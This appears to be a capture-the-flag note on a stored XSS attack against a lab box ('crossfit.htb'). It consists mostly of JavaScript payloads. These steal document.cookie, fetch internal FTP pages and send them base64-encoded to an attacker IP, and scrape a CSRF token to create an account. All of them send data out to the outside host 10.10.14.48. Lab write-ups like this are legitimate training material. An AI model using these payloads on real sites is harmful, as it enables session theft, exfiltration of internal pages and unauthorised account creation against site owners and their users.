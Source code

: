 ## Gym-Club XSS Attack
### Detection
Upon sending XSS payload to blog-single.php, this error is displayed.
![[Pasted image 20210401020308.png]]

### Initial POC
![[Pasted image 20210401021706.png]]

### Check browser
Did'nt return a cookie, but it did validate XSS injection was possible.
```javascript
document.location = 'http://10.10.14.48/' + document.cookie;
```

### Get FTP page
used XMLHttpRequest to return a page
```javascript
var target = 'http://ftp.crossfit.htb/';
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send();
var response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('GET','http://10.10.14.48/' + btoa(response), true);
req2.send();
```

This one got the accounts page
```javascript
var target = 'http://ftp.crossfit.htb/accounts/create'
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send();
var response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('GET','http://10.10.14.48/' + btoa(response), true);
req2.send();
```

### Creating a User
Grabs token on /accounts/create to create an account
```javasscript
var target = 'http://ftp.crossfit.htb/accounts/create'
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.withCredentials = true;
req1.send();
var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response,"text/html");
var token = doc.getElementsByName('_token')[0].value;

var req2 = new XMLHttpRequest();
var params = "username=clarkey&pass=123456&_token=" + token;
req2.open('POST','http://ftp.crossfit.htb/accounts', false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
req2.send(params);
var response2 = req2.responseText;



var req3 = new XMLHttpRequest();
req3.open('GET','http://10.10.14.48/' + btoa(response2), true);
req3.send();
```



